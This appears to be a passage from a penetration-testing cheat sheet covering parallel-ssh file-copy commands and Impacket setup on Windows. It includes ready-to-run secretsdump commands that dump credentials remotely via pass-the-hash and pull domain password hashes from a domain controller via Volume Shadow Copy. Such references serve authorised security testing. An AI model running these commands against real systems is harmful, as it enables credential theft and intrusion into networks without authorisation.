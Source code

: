 scp to targets (pscp)
```
    parallel-scp -l james -A -h hosts.txt /path/on/local /path/on/source
```

rsync to targets (prsync)
```
    parallel-rsync -r -l james -A -h hosts.txt /path/on/local /path/on/remote
```

copy single file from targets
```
    parallel-slurp -l james -A -h hosts.txt -L /path/to/local/destination /path/to/remote/filename filename
```

copy recursively from targets (pslurp)
```
    parallel-slurp -r -l james -A -h hosts.txt -L /path/to/local/destination /path/to/remote/folder foldername
```


## Impacket

Source: https://github.com/CoreSecurity/impacket/releases/tag/impacket_0_9_15

### Install impacket on Windows
```
	git clone https://github.com/CoreSecurity/impacket.git
```

Download VC++ For Python 2.7 (Needed to compile some modules)

- https://www.microsoft.com/en-us/download/details.aspx?id=44266

Install necessary modules (You may need to install pip first)

```
	python -m pip install pycrypto pyasn1 pyOpenSSL pyReadline ldapdomaindump
```

You can also download the PyCrypto binary if it fails to compile

- http://www.voidspace.org.uk/downloads/pycrypto26/pycrypto-2.6.win32-py2.7.exe

### Secretsdump

Attempt to dump credentials from a remote machine via Pass the Hash
```
	python secretsdump.py ./localadmin@computername.domain.com -hashes aad3b435b51404eeaad3b435b51404ee:21306681c738c3ed2d615e29be1574a3
```

Dump domain password hashes remotely via Volume Shadow Copy
```
	c:\users\username\appdata\local\temp\sd.exe domain/username:password@dchostname -just-dc -use-vss -outputfile
```
